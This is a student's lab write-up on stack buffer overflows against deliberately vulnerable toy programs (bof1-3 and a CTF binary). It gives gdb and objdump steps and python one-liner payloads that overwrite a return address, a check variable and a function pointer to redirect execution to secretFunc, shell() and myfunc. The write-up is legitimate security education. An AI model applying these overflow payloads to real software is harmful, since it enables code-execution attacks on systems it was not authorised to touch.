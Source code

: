 """
@author: Nguyen Duc Tri 
@id: 22110082
"""
# BUFFER OVERFLOW ATTACK 
# BOF1.c
## I. Prepare for the lab environment

The Dockerfile is used to build a Docker image with all the required packages for Hands-On Assembly & Security labs.

### How to use:

1. Open Docker Desktop on your computer (host machine).

2. Open Terminal

   ```bash
   git clone https://github.com/quang-ute/myprojects
   ```
   and

   ```bash
   cd myprojects
   ```

4. Build the image `img4lab` that comprises all the required packages for labs by running the following command:

   ```bash
   docker build -t img4lab .
3. Run docker container from previously built image
   ```bash
   docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
`Seclabs` is created inside student's home folder. <br>

4. On seed machine:
   
   ```bash
   cd seclabs
   ```
   then make a direction for a new file, named `bof`:

   ```bash
   mkdir bof
   ```
   and finally 

   ```bash
   cd bof
   ```


## II. Interpret the attack: 

![image](https://github.com/user-attachments/assets/6bb8d95d-f457-46a7-a910-be766ac038a8)

`For exploiting this, just filling up the buffer 200 bytes, EBP, and placing the memory address of secretFunc() into EIP. 
Instead of returning to its original position to continue the normal program flow, the EIP will now point to the secretFunc() and execute it.`

## III. Conducting the attack

1. Access to seclabs and bof
   
![image](https://github.com/user-attachments/assets/f2f34d52-070e-44f2-8685-b0c9bf3aa9bd)

2. Go to VSCode by
   
![image](https://github.com/user-attachments/assets/92550cbb-4fba-472e-ad5c-ca4d5b3383c2)

3. In VSCode terminal, run docker container from previously built image and change directory -> seclabs -> bof 

4. On seed machine

![image](https://github.com/user-attachments/assets/e5366856-381f-4238-a1ad-0be0ec61315c)

> **Note:** After typing the command, you might see a warning about the declaration of the function `get`. This is due to `get` was removed in C11. Nevermind to this warning, it will not affect the attack process. 

5. Load bof1.out in gdb

![image](https://github.com/user-attachments/assets/a3081e17-82db-438b-a825-d112f13ab5f3)

6. Once you load out bof1.out in gdb, use the disassemble command to display the assembly code for a <b>secretFunc()</b> memory region

![image](https://github.com/user-attachments/assets/c5ac8bac-3365-459e-b8db-70af5400a134)

7. The secretFunc() memory region is `0x0804846b`. Now, we must exit the gdb by typing `q`

8. Input 204 'a' characters followed by the address of secretFunc()

![image](https://github.com/user-attachments/assets/8af57690-4b4d-4ae1-bfa1-9126b8ac024b)

9. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out

![image](https://github.com/user-attachments/assets/c75f57d2-fa2b-432a-b67b-7c771c1f6d6b)

# BOF2.c 
## I. Interpret the attack:

![image](https://github.com/user-attachments/assets/f6dbdf24-0a77-473c-ba52-81caa5b3aded)

`Since the buffer buf is only 40 bytes, but the program reads up to 45 bytes, if we enters more than 40 characters, the excess characters will overwrite the memory occupied by check.`

## II. Conducting the attack: 

Every initialized step has to be done like the attack on `bof1.c` file.

If you want to print out this statement `printf("\nYou are on the right way!\n");`
```bash
echo $(python -c "print('a'*40 + '\x01\x02\x03\x02')") | ./bof2.out
```

![image](https://github.com/user-attachments/assets/1fb903d5-94cd-47e6-b63c-4d464a09685e)

Else print out this statement `printf("Yeah! You win!\n");`
```bash
echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
```

![image](https://github.com/user-attachments/assets/4a925412-a9ee-40bf-9ab1-613e2c176069)

# BOF3.c 
## I. Interpret the attack:

![image](https://github.com/user-attachments/assets/3fd5198e-249c-439b-959e-31bf79ce73ba)

` The goal is to overwrite the func() pointer with the address of the shell() so that, when func() is called, it executes shell() instead of sup().`

## II. Conducting the attack: 

Every initialized step has to be done like the attack on `bof1.c` file.

In order not to load into `gdb bof3.out` and `disas shell` function to get a memory region of shell(), we can
```bash
objdump -d bof3.out | grep shell
```

So that the address of shell() will be displayed below:

![image](https://github.com/user-attachments/assets/5347273d-cc2d-49f7-a991-8bf9608349ae)

The attack: 
```bash
echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
```
![image](https://github.com/user-attachments/assets/1521539c-ebe3-4fb7-9973-03c0738778c8)

# CTF.c
## I. Interpret the attack: 

![image](https://github.com/user-attachments/assets/b991c129-95b3-4019-bb24-e836b75fad28)

The goal of the attack is to force the program to execute `myfunc()` with the correct values for `p` `(0x04081211)` and `q` `(0x44644262)`.

By exploiting buffer overflows to overwrite return addresses, we can access into the `myfunc()`. 

## II. Conducting the attack: 

1. At first, we need to know the address of `myfunc()`:
```bash
objdump -d ctf.out | grep myfunc
```

![image](https://github.com/user-attachments/assets/50a203d4-80dd-470b-8a96-a06939e05741)

2. `disas myfunc` to have a brief analysis:

![image](https://github.com/user-attachments/assets/1cc99368-6cbf-46a6-848a-f4ca1ee3d67e)

The `myfunc` absolutely does not exist in stack frame, so do these 2 integer variable `p` and `q`. 

Thus, the idea is to determine exactly the location of `p` and `q` in stack frame. And I will assign directly the value of them before executing the program. 

3. Determine the ebp's location.

The first thing that we need to know is where the ebp is located after finishing the execution of the `vuln()`. 

![image](https://github.com/user-attachments/assets/86c4ea05-39ad-4a30-85cd-02b297925f2d)


> **Note:** Let's have a look at leave and ret. 
> (1) is a location of `esp` before the `vuln()` executed. <br>
> (2) After the `vuln()` has been done executing, the `esp` will move to the place where `ebp` is standing. (move ebp, esp). <br>
> (3) The value of `ebp` in stack frame, will be copied to (the purple line), and it disappears later on. `esp`, therefore, will move down to as show in the figure. <br>
> (4) We will meet the `ret` (the program now navigates to `myfunc()`, which is `0x0804851b). The `esp` location is shown in the figure. 

The next thing is the location of `esp` when loading into `myfunc()` 

![image](https://github.com/user-attachments/assets/c870260a-85c6-4e37-8667-565d314ae041)

The location of of `p` and `q` is: ` 100 + 4 (blank) + \x1b\x85\x04\x08 (ret) + 4 (s) + \x11\x12\x08\x04 + \x62\x42\x64\x44 `  

4. Conducting an attack:
```bash
echo $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + 'b'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")
```bash 








